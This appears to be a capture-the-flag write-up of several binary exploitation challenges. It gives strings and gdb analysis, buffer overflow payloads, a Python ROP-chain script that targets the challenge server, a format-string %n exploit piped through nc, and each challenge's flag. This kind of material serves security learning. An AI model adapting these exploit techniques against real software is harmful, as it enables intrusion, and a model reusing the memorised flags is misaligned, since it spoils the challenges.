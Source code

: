 # BE01
```
Download the file at https://ggcs-files.allyourbases.co/be01.zip and find a way to get the flag from the program.
```
Simply running strings on the file will get us our flag!

![Simple strings](/images/BE01.png)

Flag: sTriNGS-r-EZ-7819

# BE02
```
Download the file at https://ggcs-files.allyourbases.co/be02.zip and find out what the program does to get the flag.
```
We are given some c code, so we can compile this all with `gcc`. Command used is:`gcc program.c -o program`.
And then simply running the generated ELF gives us the flag.

![Using gcc](/images/BE02.png)

Flag: c0mpILE-tIME_1822

# BM01
```
Download the file at https://ggcs-files.allyourbases.co/bm01.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bm01.allyourbases.co port 8134 to get the flag.
```

We can use `gdb program` to figure out what the program is doing.
We use `info func` to view functions, and `disas main` to see the assembly.
There is an interesting line which is
```
0x000006d6 <+153>:   cmp    BYTE PTR [ebp-0x9],0x62
```
This compares the byte at `ebp-0x9` with `0x62`, which is "b".
After a bit of experimentation, I was able to get the sample flag on local by adding 50 * "a" and then adding a "b" on the end.
We can do the same on the remote to get the flag.

Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb`

Flag: c0MinG-Up_bs-8788

# BH01
```
Download the file at https://ggcs-files.allyourbases.co/bh01.zip and find a way to extract the flag.

Note that the flag must be submitted as 'normal' text which you might read in a book.
```
If we open the file up in a hex editor, we see the word flag, but there doesn't appear to be anything after it at first.
However, by accident, I figured that if you try copy the hex into a text file, it appears to be some text in English, however it was upside down.
We convert this to normal English, keeping the capitalization to get the flag.

Flag: inSIDEoUT

# BH02
```
Download the files at https://ggcs-files.allyourbases.co/bh02.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bh02.allyourbases.co port 8133 to get the flag.
```
Again, we open this up in `gdb`
We can see again, there is that line that compares bytes.
```
   0x00000744 <+215>:   cmp    BYTE PTR [ebp-0x9],0x66
```
0x66 is "f" in ASCII, but I wasn't able to get the placeholder flag, so I looked again.
It appears that we also need to add a ":)" before our f, and so I kept trying, eventually getting the sample flag.

Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:)f`

Flag: caNaRY-CoalMINE-2811

# BH03
```
Access the network service at ggcs-bh03.allyourbases.co port 1337 and follow the instructions it gives you to obtain the flag.
```
When we connect with `nc ggcs-bh03.allyourbases.co 1337`, we can see it wants us to call 3 functions.
This is a simple ROPchain task, where we overwrite the EIP register 3 times. 
To call the functions, we need padding so that we can overwrite things, and then we include the addresses of the functions.
I wrote a script to do this for me.
```
import socket
import struct
p32 = lambda x : struct.pack('I', x)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('ggcs-bh03.allyourbases.co', 1337))
print(s.recv(1024))
a = s.recv(1024)
b = a.split("\n")
x = int((b[4].split(": "))[1],16)
y = int((b[3].split(": "))[1],16)
z = int((b[2].split(": "))[1],16)
payload = "A" * 45 + p32(x) + p32(y) + p32(z) + "\n"
print(payload)
s.send(payload)
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```
Running the script gives us 3 strings.
```
PTi0xOTkw
UVE9mdW5jVGl
RmxhZzogUmV
```
If we put these in reverse order and base64 decode, we get the flag.

Flag: ReTTOfuncTiON-1990

# BX01
```
Access the network service at ggcs-bx01.allyourbases.co port 9171 and find a way to exploit it to get the flag.
```
For this challenge, we need to get the value from 1337 to 1. 
We can do this with a format string, specifically `%n`
Doing it once on the remote by sending `a%n` gives us the output
```
Object validated, contents is 'Rig'
```
So we just need to do this multiple times to get the flag.
The number ended up being 14 times.
```
python -c "print 'A'+'%n'*14" | nc ggcs-bx01.allyourbases.co 9171
```

Flag: tRUNkated-EveRYTHinG-6761
